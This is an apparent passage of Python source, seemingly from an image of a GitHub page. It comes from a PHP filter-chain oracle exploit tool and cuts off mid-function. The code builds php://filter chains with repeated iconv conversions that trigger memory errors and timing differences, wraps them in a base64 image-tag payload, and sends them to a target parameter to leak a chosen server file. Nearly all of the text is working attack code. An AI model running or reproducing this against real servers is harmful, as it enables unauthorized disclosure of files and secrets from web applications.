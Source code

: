 ```
    def error_handling_duration(self):
        chain = "convert.base64-encode"
        requ = self.req_with_response(chain)
        self.normal_response_time = requ.elapsed.total_seconds()
        self.blow_up_utf32 = 'convert.iconv.L1.UCS-4'
        self.blow_up_inf = self.join(*[self.blow_up_utf32]*15)
        chain_triggering_error = f"convert.base64-encode|{self.blow_up_inf}"
        requ = self.req_with_response(chain_triggering_error)
        return requ.elapsed.total_seconds() - self.normal_response_time

    """
    Used to parse the option parameter sent by the user
    """
    def parse_parameter(self, filter_chain):
        data = {}
        if '[' and ']' in self.parameter: # Parse array elements
            
            main_parameter = [re.search(r'^(.*?)\[', self.parameter).group(1)]
            sub_parameters = re.findall(r'\[(.*?)\]', self.parameter)
            all_params = main_parameter + sub_parameters
            json_object = {}
            temp = json_object
            for i, element in enumerate(all_params):
                if i == len(all_params) -1:
                    temp[element] = filter_chain
                else:
                    temp[element] = {}
                    temp = temp[element]
            data = json_object
        else:
            data[self.parameter] = filter_chain
        return merge_dicts(data, self.data)

    """
    Returns the response of a request defined with all options
    """
    def req_with_response(self, s):
        if self.delay > 0:
            time.sleep(self.delay)

        filter_chain = f'php://filter/{s}{self.in_chain}/resource={self.file_to_leak}'
        # DEBUG print(filter_chain)
        merged_data = self.parse_parameter(filter_chain)

        # Fix indentation: Encode filter chain in Base64
        encoded_bytes = base64.b64encode(filter_chain.encode('utf-8'))
        encoded_str = encoded_bytes.decode('utf-8')
        payload = f"<img src='data:image/png;base64,{encoded_str}'/>"
        merged_data[self.parameter] = payload  # Fixed indentation

        # Make the request, the verb and data encoding is defined
        try:
            if self.verb == Verb.GET:
                requ = self.session.get(self.target, params=merged_data)
                return requ
            elif self.verb == Verb.PUT:
                if self.json_input: 
                    requ = self.session.put(self.target, json=merged_data)
                else:
                    requ = self.session.put(self.target, data=merged_data)
                return requ
            elif self.verb == Verb.DELETE:
                if self.json_input:
```